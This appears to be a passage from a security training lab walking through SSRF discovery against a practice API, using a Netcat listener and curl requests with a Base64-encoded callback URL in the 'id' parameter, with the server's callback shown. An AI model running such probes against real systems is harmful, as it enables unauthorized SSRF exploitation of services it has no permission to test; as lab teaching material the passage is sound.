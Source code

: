 Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.

Let us first interact with it.

```shell
curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}

```

The API is expecting a parameter called _id_. Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.

```shell
nc -nlvp 4444
listening on [any] 4444 ...

```

Then, let us specify `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` as the value of the _id_ parameter and make an API call.

```shell
curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}

```

We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.

```shell
echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"

```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.

```shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close

```
